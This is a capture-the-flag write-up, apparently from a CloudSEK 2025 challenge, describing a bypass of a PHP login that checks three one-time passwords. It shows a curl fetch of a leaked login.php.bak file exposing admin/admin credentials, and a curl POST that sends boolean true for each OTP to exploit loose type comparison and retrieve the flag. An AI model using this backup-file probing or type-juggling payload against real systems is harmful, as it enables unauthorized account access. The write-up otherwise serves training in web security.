



In the source code there is scripting tag and this comment both are the ways forward

the comment is 
```
Dev team 2: TODO: Implement google2fa.php for auth and don't forget to clean up the bak files post debugging before release
```

the 2nd half of it, they actually forgot to clean up the bak files.

```
└─$ curl http://15.206.47.5:8080/login.php.bak
<?php

require('google2fa.php');
require('jsonhandler.php');


$FLAG = "";
if (isset($_ENV['FLAG'])) {
    $FLAG = $_ENV['FLAG'];
}

$USER_DB = [
    // Set the initial user
    "admin" => [
        "password_hash" => password_hash("admin", PASSWORD_DEFAULT),
        "key1" => Google2FA::generate_secret_key(),
        "key2" => Google2FA::generate_secret_key(),
        "key3" => Google2FA::generate_secret_key()
    ]
];

if (isset($_DATA['username'])) {
    
    if (!isset($USER_DB[$_DATA['username']])) {
        json_die('wrong username', 'username');
    }

    $user_data = $USER_DB[$_DATA['username']];

    if (!password_verify($_DATA['password'], $user_data['password_hash'])) {
        json_die('wrong password', 'password');
    }

    if (!Google2FA::verify_key($user_data['key1'], $_DATA['otp1'])) {
        json_die('wrong otp1', 'otp1');
    }
    if (!Google2FA::verify_key($user_data['key2'], $_DATA['otp2'])) {
        json_die('wrong otp2', 'otp2');
    }
    if (!Google2FA::verify_key($user_data['key3'], $_DATA['otp3'])) {
        json_die('wrong otp3', 'otp3');
    }

    json_response("Flag: " . $FLAG);
}

json_response("OK");
```

Also here is script tag


From the login.php.bak
Initials credentials are openly present,
username is "admin" and password ```"password_hash" => password_hash("admin", PASSWORD_DEFAULT)``` is also "admin"

About the OTPs, they aren't guessable as they are regenarated with every request made, so there must be a flaw,
the flaw is ```Bypass Vulnerability```
The server is likely using a loose comparison (==) or is running a PHP version where strcmp throws an error on arrays

I could have fetch google.php.bak but i didn't as the above analysis turns out to be right.

the payload i used gave me the flag at once

```
curl -X POST http://15.206.47.5:8080/login.php \
     -H "Content-Type: application/json" \
     -d '{"username": "admin", "password": "admin", "otp1": true, "otp2": true, "otp3": true}'
```

Flag - ```ClOuDsEk_ReSeArCH_tEaM_CTF_2025{474a30a63ef1f14e252dc0922f811b16}```



Using developers tools of the browser,



